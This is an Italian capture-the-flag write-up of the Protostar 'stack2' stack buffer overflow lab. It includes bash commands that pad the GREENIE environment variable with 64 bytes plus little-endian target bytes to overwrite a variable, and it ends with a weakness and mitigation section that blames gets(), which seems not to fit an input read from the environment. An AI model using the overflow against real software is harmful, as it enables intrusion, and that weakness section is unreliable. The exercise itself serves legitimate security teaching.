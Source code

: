 # Protostar_stack 2 - Buffer overflow

## Obiettivo della sfida
Impostare il valore di _modified_ a **0x0d0a0d0a**
a tempo di esecuzione

## Raccolta informazioni
Il programma _stack2_ accetta input locali tramite una variabile d'ambiente **GREENIE**, essa non esiste quindi va creata. La stringa 0x0d0a0d0a corrisponde a "\r\n\r\n"

## Strategia d'attacco
Creiamo la variabile d'ambiente **GREENIE**, la riempiamo inizialmente con 64 'a' e alla fine aggiungiamo la stringa 0x0a0d0a0d (ricordiamoci che l'architettura è little endian) 

### Istruzioni da eseguire
```bash
> cd /opt/protostar/bin
> GREENIE=$(python -c 'print "a" * 64 + "\x0a\x0d\x0a\x0d"')
> echo $GREENIE
# verifichiamo che la stringa sia corretta
> ./stack2
# sfida vinta
```

## Debolezze
1. `gets()` non effettua controlli sul buffer overflow

## Mitigazione
1. sostituire la funzione`gets()` con `fgets()`

